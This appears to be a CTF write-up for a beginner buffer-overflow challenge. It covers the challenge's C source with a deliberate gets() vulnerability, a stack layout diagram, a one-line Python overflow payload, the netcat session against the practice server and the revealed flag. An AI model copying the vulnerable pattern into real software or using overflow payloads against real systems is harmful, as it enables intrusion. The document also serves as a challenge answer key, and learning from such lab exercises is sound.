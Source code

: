 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Want to learn the hacker's secret? Try to smash this buffer!
> You need guidance? Look no further than to [Mr. Liveoverflow](https://old.liveoverflow.com/binary_hacking/protostar/stack0.html). He puts out nice videos you should look if you haven't already
> `nc thekidofarcrania.com 35235`
> [bof.c](https://ctflearn.com/challenge/download/1010) 

## bof.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff);

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff);

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```
- The program sets a buffer of 32 bytes and then padding of 16 bytes.
- It then creates two variables `notsecret` and `secret` and sets their value to `0xffffff00` and `0xdeadbeef` respectively.

## Stack
```        
           +---------------------------+
0xffbbf4e8 |  00 00 00 00 00 00 00 00  | < buffer
0xffbbf4f0 |  00 00 00 00 00 00 00 00  |
0xffbbf4f8 |  00 00 00 00 00 00 00 00  |
0xffbbf500 |  00 00 00 00 00 00 00 00  |
           +---------------------------+
0xffbbf508 |  ff ff ff ff ff ff ff ff  | < padding
0xffbbf510 |  ff ff ff ff ff ff ff ff  |
           +-------------+-------------+
0xffbbf518 | ef be ad de | 00 ff ff ff |
           +-------------+-------------+
             ^             ^
             secret        notsecret
```
- The program then has four conditional statements:
	1. Executes if the value of `secret` has been set to `0x67616c66` and prints out the flag.
	2. Executes if the value of `notsecret` has been altered.
	3. Executes if the value of `secret` has been altered but not set to `0x667616c66`.
	4. Executes if none of the above conditions are met.
- We need 48 bytes to fill the buffer and the padding and then `0x67616c66`.

## Exploit
```
$ python3 -c 'print("a"*48 + "\x66\x6c\x61\x67")'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag
```
- Note that `0x67616c66` is written in little endian format. 
- Let's provide the string as the input.
```
$ nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 00 00 00 00 00 00 00 00 |
0xfff45060 | 00 00 00 00 00 00 00 00 |
0xfff45068 | 00 00 00 00 00 00 00 00 |
0xfff45070 | 00 00 00 00 00 00 00 00 |
0xfff45078 | ff ff ff ff ff ff ff ff |
0xfff45080 | ff ff ff ff ff ff ff ff |
0xfff45088 | ef be ad de 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

Input some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 61 61 61 61 61 61 61 61 |
0xfff45060 | 61 61 61 61 61 61 61 61 |
0xfff45068 | 61 61 61 61 61 61 61 61 |
0xfff45070 | 61 61 61 61 61 61 61 61 |
0xfff45078 | 61 61 61 61 61 61 61 61 |
0xfff45080 | 61 61 61 61 61 61 61 61 |
0xfff45088 | 66 6c 61 67 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```

## Flag
```
CTFlearn{buffer_0verflows_4re_c00l!}
```
